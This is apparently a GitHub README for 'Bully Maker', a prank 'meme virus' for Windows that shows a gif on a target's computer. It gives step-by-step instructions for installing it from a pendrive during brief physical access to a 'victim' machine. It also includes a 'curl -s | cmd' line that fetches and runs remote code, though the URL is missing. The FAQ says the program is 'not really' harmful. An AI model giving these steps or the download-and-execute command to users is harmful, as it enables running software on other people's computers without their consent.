 # Bully Maker

A program that bullies the victim computer with a meme albanian virus and a sussy hacker gif

Inspiration for albanian virus:
https://www.reddit.com/r/funny/comments/3l65rp/albanian_virus/

## Requirements
- Windows operating system
- Access to the victim computer for a few minutes

## Usage

- Copy the setup.bat and bully.gif to a pendrive
- Open the pendrive in the victim's computer and run the setup file
- Enter the time you want the program to wait, as you would wish the program to
run while the computer is being used. the default waiting time is 120 seconds
that is 2 minutes.
- After the setup is completed unplug the pendrive, and after the timeout is 
completed, the meme virus will detonate.

## FAQs
1) Is this harmful?
A) Not really

2) How to stop the program?
A) The program doesn't stop by itself, you will need open task manager and kill the vbs task.
If you cannot do that, the only option is to restart the computer.

3) How to uninstall the virus?
A) Go to the temp folder by typing `cd %tmp%` and delete the folder named
bully by running `rmdir /s bully`

## Miscellaneous
If you do not wish to use a pendrive and the victim computer has internet connection
you can also run the below command in cmd

`curl -s | cmd`
